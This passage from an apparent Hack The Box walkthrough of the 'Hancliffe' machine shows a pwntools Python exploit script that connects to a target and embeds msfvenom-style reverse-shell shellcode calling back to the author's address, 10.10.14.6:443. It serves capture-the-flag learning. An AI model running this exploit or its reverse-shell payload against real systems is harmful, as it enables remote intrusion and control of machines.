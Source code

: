     FLARE Fri 02/04/2022 18:59:01.48
    Z:\hackthebox\hancliffe-10.10.11.115>



### Remote Exploit

I'll update the connecting in the script to take both the IP and PORT as
args. I'll also replace the shellcode with my tun0 IP.

The final script is:



    #!/usr/bin/env python3

    from pwn import *


    r = remote(args['IP'], args['PORT'])

    # 10.10.14.6:443
    shellcode =  b""
    shellcode += b"\xb8\xcb\x04\x2d\xcb\xda\xd4\xd9\x74\x24\xf4"
    shellcode += b"\x5b\x33\xc9\xb1\x52\x31\x43\x12\x03\x43\x12"
    shellcode += b"\x83\x20\xf8\xcf\x3e\x4a\xe9\x92\xc1\xb2\xea"
    shellcode += b"\xf2\x48\x57\xdb\x32\x2e\x1c\x4c\x83\x24\x70"
    shellcode += b"\x61\x68\x68\x60\xf2\x1c\xa5\x87\xb3\xab\x93"
    shellcode += b"\xa6\x44\x87\xe0\xa9\xc6\xda\x34\x09\xf6\x14"
    shellcode += b"\x49\x48\x3f\x48\xa0\x18\xe8\x06\x17\x8c\x9d"
    shellcode += b"\x53\xa4\x27\xed\x72\xac\xd4\xa6\x75\x9d\x4b"
    shellcode += b"\xbc\x2f\x3d\x6a\x11\x44\x74\x74\x76\x61\xce"
    shellcode += b"\x0f\x4c\x1d\xd1\xd9\x9c\xde\x7e\x24\x11\x2d"
    shellcode += b"\x7e\x61\x96\xce\xf5\x9b\xe4\x73\x0e\x58\x96"
    shellcode += b"\xaf\x9b\x7a\x30\x3b\x3b\xa6\xc0\xe8\xda\x2d"
    shellcode += b"\xce\x45\xa8\x69\xd3\x58\x7d\x02\xef\xd1\x80"
    shellcode += b"\xc4\x79\xa1\xa6\xc0\x22\x71\xc6\x51\x8f\xd4"
    shellcode += b"\xf7\x81\x70\x88\x5d\xca\x9d\xdd\xef\x91\xc9"
    shellcode += b"\x12\xc2\x29\x0a\x3d\x55\x5a\x38\xe2\xcd\xf4"
    shellcode += b"\x70\x6b\xc8\x03\x76\x46\xac\x9b\x89\x69\xcd"
    shellcode += b"\xb2\x4d\x3d\x9d\xac\x64\x3e\x76\x2c\x88\xeb"
    shellcode += b"\xd9\x7c\x26\x44\x9a\x2c\x86\x34\x72\x26\x09"
    shellcode += b"\x6a\x62\x49\xc3\x03\x09\xb0\x84\x21\xc4\xb4"
    shellcode += b"\x52\x5e\xda\xc8\x5b\x25\x53\x2e\x31\x49\x32"
    shellcode += b"\xf9\xae\xf0\x1f\x71\x4e\xfc\xb5\xfc\x50\x76"
    shellcode += b"\x3a\x01\x1e\x7f\x37\x11\xf7\x8f\x02\x4b\x5e"
    shellcode += b"\x8f\xb8\xe3\x3c\x02\x27\xf3\x4b\x3f\xf0\xa4"
    shellcode += b"\x1c\xf1\x09\x20\xb1\xa8\xa3\x56\x48\x2c\x8b"
    shellcode += b"\xd2\x97\x8d\x12\xdb\x5a\xa9\x30\xcb\xa2\x32"
    shellcode += b"\x7d\xbf\x7a\x65\x2b\x69\x3d\xdf\x9d\xc3\x97"
    shellcode += b"\x8c\x77\x83\x6e\xff\x47\xd5\x6e\x2a\x3e\x39"
    shellcode += b"\xde\x83\x07\x46\xef\x43\x80\x3f\x0d\xf4\x6f"
    shellcode += b"\xea\x95\x04\x3a\xb6\xbc\x8c\xe3\x23\xfd\xd0"
    shellcode += b"\x13\x9e\xc2\xec\x97\x2a\xbb\x0a\x87\x5f\xbe"
    shellcode += b"\x57\x0f\x8c\xb2\xc8\xfa\xb2\x61\xe8\x2e"
